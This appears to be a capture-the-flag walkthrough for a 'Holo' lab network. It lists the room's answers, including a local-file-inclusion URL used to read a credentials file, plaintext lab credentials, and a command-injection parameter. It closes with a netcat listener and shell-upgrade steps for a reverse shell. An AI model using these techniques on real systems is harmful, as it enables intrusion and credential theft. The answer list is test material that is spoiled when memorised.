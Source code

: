  ```http://dev.holo.live/img.php?file=images/korone.jpg```

* Running the ```id``` command shows us that we are running commands as 'www-data'.

```markdown
1. What domains loads images on the first web page? - www.holo.live

2. What are the two other domains present on the web server? - admin.holo.live,dev.holo.live

3. What file leaks the web server's current directory? - robots.txt

4. What file loads images for the development domain? - img.php

5. What is the full path of the credentials file on the administrator domain? - /var/www/admin/supersecretdir/creds.txt

6. What file is vulnerable to LFI on the development domain? - img.php

7. What parameter in the file is vulnerable to LFI? - file

8. What file found from the information leak returns an HTTP error code 403 on the administrator domain? - /var/www/admin/supersecretdir/creds.txt

9. Using LFI on the development domain read the above file. What are the credentials found from the file? - admin:DBManagerLogin!

10. What file is vulnerable to RCE on the administrator domain? - dashboard.php

11. What parameter is vulnerable to RCE on the administrator domain? - cmd

12. What user is the web server running as? - www-data
```

## Post Exploitation - 1

```shell
nc -nvlp 4444

#use reverse-shell one-liner in RCE
#using the nc binary

#we get reverse shell
id

#upgrade to fully interactive shell
python3 -c 'import pty;pty.spawn("/bin/bash")'

export TERM=xterm

#Ctrl+Z to background shell

stty raw -echo; fg
#press Enter twice

#we have upgraded shell
ls
```
